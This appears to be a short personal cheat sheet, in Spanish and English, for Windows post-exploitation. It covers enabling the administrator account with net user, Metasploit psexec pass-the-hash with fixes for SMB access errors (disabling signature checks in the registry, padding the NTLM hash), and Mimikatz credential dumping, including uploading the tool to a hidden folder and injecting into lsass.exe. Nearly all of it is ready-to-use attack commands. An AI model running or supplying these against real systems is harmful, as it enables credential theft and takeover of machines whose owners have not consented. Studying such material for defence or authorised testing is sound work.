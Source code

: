 c:>>net user administrador active/yes
C:>>net user administrador active/no
C:>>net user administrador *
c:>>escriba una contraseña para el usuario:  ;);););););););););)

<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>

 ____   _    ____ ____    _____ _   _ _____   _   _    _    ____  _   _ 
|  _ \ / \  / ___/ ___|  |_   _| | | | ____| | | | |  / \  / ___|| | | |
| |_) / _ \ \___ \___ \    | | | |_| |  _|   | |_| | / _ \ \___ \| |_| |
|  __/ ___ \ ___) |__) |   | | |  _  | |___  |  _  |/ ___ \ ___) |  _  |
|_| /_/   \_\____/____/    |_| |_| |_|_____| |_| |_/_/   \_\____/|_| |_|
                                                                        
"""""""""""""""""""""""""""""""""""""""""""""""""""psexec"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""

Set the options and then exploit......
>>meterpreter

Error: 
[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_ACCESS_DENIED (Command=117 WordCount=0)
Solucion:
“HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters” with “RequireSecuritySignature” set to “0”
Error:
[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)
Solucion: Concatenate the blank LM hash to the NTLM hash
00000000000000000000000000000000:




Dumping Hashes

""""""""""""""""""""""""""""""""""""""""""""""""""Mimikatz"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
>>mimikatz.exe
>>privilege::debug                             //nos da privilegios sobre LSA
>>sekurlsa::logonpasswords
...................muchos hashes y passwords...........

Se puede usar mimikatz como post/exploitation desde metasploit

Opcion 1)
Cargar mimikatz al sistema comprometido
>>meterpreter>> upload /home/mimikatz.exe c:\\AlgunLugarEscondido
>>meterpreter>> shell
C: > cd AlgunlLugarEscondido
c:\AlgunLugarEscondido > mimikatz.exe

To run mimikatz you well need mimikatz.exe and sekurlsa.dll on the system you're targeting. 
privilege::debug
inject::process lsass.exe sekurlsa.dll                   / or  inject::service samss sekurlsa.dll
@getLogonPasswords full
sekurlsa::logonpasswords full
